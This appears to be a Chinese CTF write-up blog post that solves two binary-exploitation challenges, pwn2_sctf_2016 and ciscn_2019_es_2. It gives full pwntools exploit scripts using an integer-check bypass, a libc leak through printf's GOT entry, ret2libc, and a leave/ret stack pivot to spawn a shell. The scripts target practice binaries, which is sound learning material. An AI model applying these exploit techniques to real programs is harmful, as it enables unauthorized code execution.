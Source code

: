 ```yaml
---
title: 'pwn2_sctf_2016'
date: 2023-12-30 13:00:00 +0800
categories: [leak_libc]
tags: [ctf,pwn]
---
```

- `lib`地址泄露

![image-20231223203034800](../assets/img/old_imgs/image-20231223203034800.png)

> vuln()

1. 程序对输入的`v2`做了限制首先要利用整数绕过`if (v2 > 32)`的限制

2. 程序中没有现成的`shell`所以要通过`printf`泄露`lib`手动构造`shell`

   ```python
   from pwn import * 
   context.log_level = 'debug'
   io = process('./pwn2_sctf_2016')
   #io = gdb.debug('./pwn2_sctf_2016','break *vuln')
   elf = ELF('./pwn2_sctf_2016')
   Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
   printf_got = elf.got['printf']
   printf_plt = elf.plt['printf']
   vuln_addr = elf.sym['vuln']
   main_addr = elf.sym['main']
   offset =48
   #1.绕过限制
   io.sendlineafter('How many bytes do you want me to read?',b'-1')
   #2.泄露lib
   payload1 = b'A'*offset+p32(printf_plt)+p32(vuln_addr)+p32(printf_got)
   io.sendlineafter(b'data!\n',payload1)
   io.recvuntil('\n')
   a = io.recv(4)
   printf_addr = u32(a)
   print('lib->',hex(printf_addr))
   #3.构造shell
   baseoffset = printf_addr - Lib.symbols['printf']
   sys_addr = Lib.sym['system']+baseoffset
   shell_addr = baseoffset+next(Lib.search(b'/bin/sh'))
   io.sendlineafter(b'read?',b'-1')
   payload2 = b'A'*offset+p32(sys_addr)+p32(main_addr)+p32(shell_addr)
   io.recvuntil(b'data!\n')
   io.sendline(payload2)
   io.interactive()
   ```

   

# ciscn_2019_es_2

![image-20231225113135740](../assets/img/old_imgs/image-20231225113135740.png)

- 栈迁移

1. `read()`存在溢出,但是只有`0x30`个位置不能拿到shell,所以考虑栈迁移
2. 通过泄露参数`s`在栈上的位置,将`payload`写入栈上
3. 迁移栈到参数`s`的位置,运行写入的`payload`拿到shell

```assembly
leaved =>
mov esp,ebp 
pop ebp
#清除栈帧,初始化到执行前的样子
ret =>
pop eip
jmp
#相当于一个无条件转跳
```

![image-20231225110712276](../assets/img/old_imgs/image-20231225110712276.png)

> 泄露出`s`在栈上的偏移地址

![image-20231225124013883](../assets/img/old_imgs/image-20231225124013883.png)

> 完成栈迁移

```python 
from pwn import *
#context.log_level = 'debug'
io = process('./ciscn_2019_es_2')
#io = gdb.debug('./ciscn_2019_es_2','break *vul')
elf = ELF('./ciscn_2019_es_2')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
offset = 0x28
payload1 = b'A'*offset
io.sendafter(b"Welcome, my friend. What's your name?\n",payload1)
io.recvuntil(b'Hello,')
io.recvuntil(b'A'*0x28)
old_ebp = u32(io.recv(4))
s_addr = ebp_addr = old_ebp-0x10-offset
print('old_ebp -> ',hex(old_ebp))
print('s_addr -> ',hex(ebp_addr))
#pause()
payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00' #`\x00`截断
#32位程序中参数在函数的后0x10位置,所以填充p32(0)
payload2 = payload2.ljust(0x28,b'A')
payload2 += p32(s_addr)+p32(0x08048562) #填充满栈空间,用p32(s_addr)+p32(0x08048562)劫持`leave`完成迁移并填充上新的`leave&ret`
io.send(payload2)
io.interactive()
```
